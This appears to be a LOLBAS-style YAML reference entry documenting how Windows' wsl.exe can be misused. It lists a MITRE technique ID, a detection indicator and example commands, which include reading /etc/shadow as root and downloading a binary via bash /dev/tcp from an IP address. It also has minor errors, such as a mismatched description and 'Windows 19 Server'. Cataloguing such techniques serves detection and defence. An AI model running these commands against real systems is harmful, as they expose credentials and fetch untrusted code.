 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: "Matthew Brown"
Created: "2019-06-27"
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --exec bash -c 'cat file'
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Acknowledgement:
  - Person: Alex Ionescu
    Handle: "@aionescu"
  - Person: Matt
    Handle: "@NotoriousRebel1"
  - Person: Asif Matadar
    Handle: "@d1r4c"
---
```

